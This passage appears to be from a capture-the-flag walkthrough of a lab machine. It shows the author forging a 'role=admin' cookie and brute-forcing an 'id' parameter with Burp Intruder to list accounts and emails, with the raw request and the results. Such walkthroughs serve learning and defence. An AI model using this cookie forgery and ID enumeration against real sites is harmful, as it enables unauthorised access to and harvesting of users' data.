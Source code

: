 Holy crap. There's no session token! The Cookie contains all of the User ID information!

If I try to go to <http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads>, I get the message,

> This action require super admin rights.

If I change my cookie with Burp Suite, I might be able to get different responses.

I noticed that if I change the `user` cookie to something other than `34322`, I get logged out, but if I change the `role`, nothing happens.

I was also going to use a 'intruder' attack from Burp Suite to see what 'id' values I could get from the site.

```
GET /cdn-cgi/login/admin.php?content=accounts&id=§foo§ HTTP/1.1
Host: 10.10.10.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.28/cdn-cgi/login/admin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=34322; role=admin
Connection: close
```

From 1-100, these IDs existed, and gave these results from the `/cdn-cgi/login/admin.php?content=accounts&id=§foo§` page.

-   n (format)
    -   access id:name:email
-   1
    -   34322:admin:admin@megacorp.com
-   4
    -   8832:john:john@tafcz.co.uk
-   13
    -   57633:Peter:peter@qpic.co.uk
-   23
    -   28832:Rafol:tom@rafol.co.uk
-   30
    -   86575:super admin:superadmin@megacorp.com

Also, this page (from repeating requests with OWASP ZAP):

<https://10.10.10.28/cdn-cgi/login/admin.php?content=branding&brandId=1>

Has the brandIds:

-   n
    -   brand id:model:price
-   1
    -   1:MC-1023:$100,240
-   10
    -   10:MC-1123:$110,240
-   20
    -   20:MC-2123:$110,340
